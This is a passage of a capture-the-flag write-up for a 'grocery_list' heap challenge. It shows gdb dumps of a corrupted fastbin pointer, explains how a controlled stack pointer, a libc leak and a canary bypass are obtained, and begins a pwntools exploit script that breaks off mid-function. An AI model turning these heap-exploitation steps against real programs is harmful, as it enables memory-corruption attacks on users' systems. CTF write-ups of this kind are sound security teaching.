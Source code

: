 ```
0x555555758470: 0x00007fffffffecd0      0x0000000000000000 # FD corrupted
0x555555758480: 0x0000000000000000      0x0000000000000021 <- item 3
```
So, after this the next allocation for items should have our controlled pointer,
```
    add_empty(1, 2)

gdb-peda$ x/10gx 0x555555554000+0x202040
0x555555756040: 0x0000555555758430      0x0000555555758490
0x555555756050: 0x0000555555758470      0x00007fffffffece0 <- controlled !!
0x555555756060: 0x0000000000000000      0x0000000000000000
0x555555756070: 0x0000000000000000      0x0000000000000000
0x555555756080: 0x0000000000000000      0x0000000000000000
```
This will eventually lead to libc leak too, since `0x00007fffffffece0` contains the address of `__libc_start_main+241`. Ok, we have overflow, controlled pointer at stack, libc leak, is it done? Well, sadly, not yet. We should bypass some more protection on binary, stack canary and this custom protection at the end of `main` function.
```
if ( *(rbp+0x8) != (void *)bss_retAddr || *(rbp-0x20) != (void *)bss_retAddr )
    exit(1);
```
We can't use overflow and `dump_all` to leak canary, because at the end of buffer null byte appended. So, from this point it's just forging chunks and fastbin attack with different size (we still have medium and large sized fastbins to use), to leak canary, pie base, and stuff.

Wonder why I'm not using `__malloc_hook` or stuff like that? Well, sadly, no satisfied offset from any one_gadget RCE, simply we can't use `__malloc_hook` on this challanges, or is it(?).

## full exploit
```python
#!/usr/bin/env python
from pwn import *
import sys

gdbcmd = '''
b *{}+0x1283
'''

# context.terminal = 'kitty @ new-window --keep-focus sh -c'.split()

if sys.argv.__len__() == 3:
    r = remote(sys.argv[1], int(sys.argv[2]))
else:
    r = process(sys.argv[1], aslr=False, env={'LD_PRELOAD' : '/home/vagrant/ctf/nox/pwn/grocery_list/libc.so'})
    # r = process(sys.argv[1], aslr=False)
    gdb.attach(r, gdbcmd.format(0x555555554000))
    # r = process(sys.argv[1])

def dump_all():
    r.sendlineafter('7. Exit', '1')
    r.recvuntil('----------\n')
    content = r.recvuntil('\n----------', drop=True)
    content = content.splitlines()
    content = [x.split('. ')[1] for x in content]
    return content

def add_item(size, payload):
    r.sendlineafter('7. Exit', '2')
    r.sendlineafter('items?', str(size))
    r.sendlineafter('name:', payload)

def add_empty(size, count):
```
